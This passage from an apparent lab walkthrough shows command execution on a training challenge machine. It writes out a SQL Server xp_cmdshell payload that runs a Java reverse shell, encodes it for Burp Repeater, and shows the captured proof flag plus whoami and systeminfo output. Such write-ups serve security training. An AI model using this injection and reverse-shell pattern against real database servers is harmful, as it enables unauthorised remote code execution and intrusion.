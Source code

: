```sql
EXEC xp_cmdshell 'java %temp%/RevShell.java';  
```
`Ctrl+U` in burpsuite to encode
```sql
EXEC+xp_cmdshell+'java+%25temp%25/RevShell.java'%3b++
```

Let's paste our payload in Repeater, encode the spaces and percent signs, and click _Send_.

![[Pasted image 20241108215802.png]]

Excellent. Our attack worked and we now have a reverse shell on the machine. We can find the proof.txt file in the working directory of the reverse shell. We can submit this value on the Labs page to gain credit for completing the remote code execution portion of this challenge machine.


```bash
C:\Windows\system32>type proof.txt
type proof.txt
13723e3c3dd8c78944da2fd9149231fc
```

![[Pasted image 20241108220013.png]]

whoami
```bash
C:\Windows\Temp>whoami
whoami
nt service\mssql$sqlexpress
```
systeminfo
```bash
C:\Windows\Temp>systeminfo                                                                                                                                                                                 
systeminfo                                                                                                                                                                                                 
                                                                                                                                                                                                           
Host Name:                 WIN-KVMM9OID14T                                                                                                                                                                 
OS Name:                   Microsoft Windows Server 2019 Standard                                                                                                                                          
OS Version:                10.0.17763 N/A Build 17763                                                                                                                                                      
OS Manufacturer:           Microsoft Corporation                                                                                                                                                           
OS Configuration:          Standalone Server                                                                                                                                                               
OS Build Type:             Multiprocessor Free                                                                                                                                                             
Registered Owner:          Windows User                                                                                                                                                                    
Registered Organization:                                                                                                                                                                                   
Product ID:                00429-70000-00000-AA514                                                                                                                                                         
```